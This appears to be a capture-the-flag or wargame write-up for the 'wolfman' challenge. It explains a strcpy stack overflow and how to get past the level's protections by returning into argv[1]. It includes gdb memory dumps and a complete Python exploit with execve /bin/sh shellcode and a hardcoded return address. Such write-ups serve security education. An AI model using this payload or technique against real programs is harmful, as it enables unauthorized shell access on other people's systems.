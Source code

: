 # Vulnerability
```c
char buffer[40];
strcpy(buffer, argv[1]); 
```

strcpy() copys argv[1] into buffer's address but doesn't check any boundary.

But in `wolfman.c`, Some protection is added. The code is:
```c
// egghunter 
for(i=0; environ[i]; i++)
  memset(environ[i], 0, strlen(environ[i]));

if(argv[1][47] != '\xbf')
{
  printf("stack is still your friend.\n");
  exit(0);
}

// buffer hunter
memset(buffer, 0, 40);
```
First, It resets all environment variables.

Second, I must use stack address in RET address.

Third, The program resets buffer's address.

So, I will use argv[1] address instead buffer's address because this program doesn't reset that address.
```
--------------------------------------------------------------
| NOP(15) | SHELLCODE(25) | AAAA(4) | RET[arg1's address](4) |
--------------------------------------------------------------
```
Run python script to get core file(to know where is argv[1]) and the buffer is:
```
(gdb) x/32x $esp-48
0xbffffac0:	0x00000000	0x00000000	0x00000000	0x00000000
0xbffffad0:	0x00000000	0x00000000	0x00000000	0x00000000
0xbffffae0:	0x00000000	0x00000000	0x41414141	0xbfffffff
```
As you see, the buffer's address is set to zero.

```
0xbffffc30:	0x90909000	0x90909090	0x90909090	0x90909090
(gdb) 
0xbffffc40:	0x6850c031	0x68732f2f	0x69622f68	0x50e3896e
0xbffffc50:	0x31e18953	0xcd0bb0d2	0x41414180	0xffffff41
```
But argv[1] was not set to zero. Use this address to return.

# Payload
```python
import os
from struct import *

payload = ""
payload = payload + "\x90" * 15
payload = payload + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"
payload = payload + "AAAA" # SFP
payload = payload + "\x34\xfc\xff\xbf" # RET

os.execv('/home/orc/wolfman', ["", payload])
```
